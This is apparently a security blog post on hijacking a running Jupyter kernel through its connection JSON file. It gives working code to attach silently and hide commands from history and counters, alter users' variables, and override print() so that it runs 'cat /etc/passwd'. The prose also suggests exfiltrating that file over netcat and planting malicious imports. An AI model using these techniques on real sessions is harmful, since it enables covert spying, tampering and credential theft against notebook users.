


# Cohabitating on a Jupyter session

Instead of focusing on the password and token based authentication most folks are used to seeing as part of their JupyterLab interface, we're going to take a deeper look at the internals. Come play along!

1. Start an instance. My go-to command from WSL2 is `jupyter-lab --no-browser`.
2. See `http://localhost:8888/lab?token={SOMESTUFF}`? Yup, that'll help you connect to the session in the browser, but we're going to take a different route.
3. Take a look at your various runtimes (sorted by modification time): `ls -tlr ~/.local/share/jupyter/runtime/`. [1]
4. See the most recent file that starts with `kernel` and ends with `.json`? That has some goodies. Take a look and keep a copy. 



With that file, we can create a [KernelClient](https://jupyter-client.readthedocs.io/en/stable/api/client.html).

```
cf = jupyter_client.find_connection_file("your.json")
kc = jupyter_client.BlockingKernelClient(connection_file = cf)
kc.load_connection_file()
kc.start_channels()
```

We can now do things like checking out the session history: `kc.get_shell_msg(kc.history())`. This includes all of the kernel history, including things that happened before we joined.


And we can execute commands: `kc.execute_interactive(code="print('banana')")`. Keep in mind that this will show up in the history.

And sometimes we don't want to be logged. So try: `kc.execute_interactive(code="print('grapefruit')", silent=True)`. Boom, not in the history anymore. You know those cell execution counters? This also prevents them from incrementing and therefore helps keep us stealthy (our `print('banana')` _would_ increment the counter).

Because we're executing commands in ipython, other fun things work like executing system commands with `!`: `kc.execute_interactive(code="!ls", silent=True)`.

This execution method can even let us tamper with Jupyter-users during runtime. Check out this well-timed variable modification...



between 13 and 14, we ran: `kc.execute_interactive(code="test = 'jimmy'", silent=True)`

and the execution count and history don't even give us away.

Can you think of a scenario where you'd want a user to run your code on a regular basis? With this technique, we can overwrite Python built-in functions: `kc.execute_interactive(code="def print(*args):\n\timport os\n\tos.system('cat /etc/passwd')\n\tdisplay(*args)", silent=True)`. In this example, the user would see their entire `/etc/passwd` before their desired `print()` string, but your payload could include sending this file silently over netcat. It's fun to think about what sorts of things you would want updated every time the user executes `print()`. You could extract their variables in real time to monitor their progress... and those are only passive payloads. Imagine what you could tamper with this way (like overriding the user's benign imports with your own malicious code). This functionality will persist until the kernel is restarted.

It's also possible that this was entirely too complicated. You can do similar things from `jupyter console --existing your.json`... but I'm not sure you can be quite as stealthy or have the range of raw functionality. If you choose to do it with `jupyter console`, also be aware that killing the console there will also kill it for any cohabitants. This also presupposes that you have that key `.json`, and if you have that, you probably have code execution some other way. Is it strictly necessary? Probably not. Was it fun? Certainly. Do you have any other cool uses for this technique?


[1] https://stackoverflow.com/a/70263390
